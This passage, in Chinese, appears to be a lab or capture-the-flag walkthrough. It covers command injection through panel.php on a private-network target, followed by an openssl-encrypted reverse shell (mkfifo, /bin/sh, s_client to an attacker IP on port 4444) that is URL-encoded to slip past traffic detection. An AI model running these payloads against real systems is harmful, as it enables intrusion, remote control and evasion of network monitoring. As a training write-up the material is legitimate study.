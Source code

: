   推测是服务器防火墙对外出流量进行了限制，考虑如下两种情况：

  - 出口流量限制（不允许主动对外发起连接或只允许对外端口在白名单内的流量)
  
  - 恶意流量监测
  
  尝试使用nc进行一次简单连接， `nc 192.168.245.154 4444`
  
  ```bash
  curl http://192.168.245.132/panel.php -b "PHPSESSID=n84resdb8kifghj18g41ktm1l6" -d "load=uploaded_images/ccl.png&continue=continue&cmd=system('nc 192.168.245.154 4444');" -o tmp
  ```
  
  发现本地可以监听到连接信息，遂排除第一种情况，推测防火墙进行了恶意流量检测，对此，尝试使用openssl加密流量。
  
  首先在本地生成证书和公钥，使用openssl的s_server进行监听：
  
  ```bash
  openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 30 -nodes
  openssl s_server -quiet -key key.pem -cert cert.pem -port 4444
  ```
  
  在服务器端使用openssl的s_client发起访问：
  
  ```bash
  mkfifo /tmp/tmp_pipe;/bin/sh -i < /tmp/tmp_pipe 2>&1|openssl s_client -connect 192.168.245.154:4444 > /tmp/tmp_pipe;rm /tmp/tmp_pipe
  ```
  
  url编码后发送到服务器
  
  ```bash
  curl http://192.168.245.132/panel.php -b "PHPSESSID=n84resdb8kifghj18g41ktm1l6" -d "load=uploaded_images/ccl.png&continue=continue&cmd=%73%79%73%74%65%6d%28%27%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%74%6d%70%5f%70%69%70%65%3b%2f%62%69%6e%2f%73%68%20%2d%69%20%3c%20%2f%74%6d%70%2f%74%6d%70%5f%70%69%70%65%20%32%3e%26%31%7c%6f%70%65%6e%73%73%6c%20%73%5f%63%6c%69%65%6e%74%20%2d%63%6f%6e%6e%65%63%74%20%31%39%32%2e%31%36%38%2e%32%34%35%2e%31%35%34%3a%34%34%34%34%20%3e%20%2f%74%6d%70%2f%74%6d%70%5f%70%69%70%65%3b%72%6d%20%2f%74%6d%70%2f%74%6d%70%5f%70%69%70%65%27%29%3b" -o tmp
  ```
  
  成功得到响应，但仍有问题：
  
  ![](./img/openssl.jpg)
  
  握手失败，看起来是两端openssl兼容性问题（服务器的openssl版本很旧了），尝试直接指定s_client使用的协议，发现使用`tlsv1.2`可以解决问题：
  
  ```bash
  mkfifo /tmp/tmp_pipe;/bin/sh -i < /tmp/tmp_pipe 2>&1|openssl s_client -tls1_2 -connect 192.168.245.154:4444 > /tmp/tmp_pipe;rm /tmp/tmp_pipe
  ```
  
  ```bash
  curl http://192.168.245.132/panel.php -b "PHPSESSID=n84resdb8kifghj18g41ktm1l6" -d "load=uploaded_images/ccl.png&continue=continue&cmd=%73%79%73%74%65%6d%28%27%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%74%6d%70%5f%70%69%70%65%3b%2f%62%69%6e%2f%73%68%20%2d%69%20%3c%20%2f%74%6d%70%2f%74%6d%70%5f%70%69%70%65%20%32%3e%26%31%7c%6f%70%65%6e%73%73%6c%20%73%5f%63%6c%69%65%6e%74%20%2d%74%6c%73%31%5f%32%20%2d%63%6f%6e%6e%65%63%74%20%31%39%32%2e%31%36%38%2e%32%34%35%2e%31%35%34%3a%34%34%34%34%20%3e%20%2f%74%6d%70%2f%74%6d%70%5f%70%69%70%65%3b%72%6d%20%2f%74%6d%70%2f%74%6d%70%5f%70%69%70%65%27%29%3b" -o tmp
  ```
  